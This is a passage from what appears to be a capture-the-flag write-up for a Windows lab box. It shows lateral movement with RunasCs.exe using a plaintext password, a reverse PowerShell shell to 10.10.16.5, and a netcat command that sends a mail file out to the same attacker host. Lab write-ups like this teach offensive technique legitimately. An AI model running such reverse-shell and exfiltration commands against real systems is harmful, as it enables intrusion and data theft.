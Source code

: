 Trying `evil-winrm` to get a session but was unsuccessful. So running `runasCs.exe` for lateral movement.   

```powershell
./RunasCs.exe mikasaAckerman IL0v3ErenY3ager powershell -r 10.10.16.5:5555
```

We get a connection.  

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106220136.png" alt="1" style="width:700px; height:auto;">
<br/>

In the `mikasa` folder, we find `2` files other than the `flag`.   

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106220702.png" alt="1" style="width:700px; height:auto;">
<br/>

Downloaded them `netcat`  and upload the files 

```powershell
Get-Content mail.txt | C:\users\public\nc64.exe -nv 10.10.16.5 6666
```

The file was uploaded successfully .
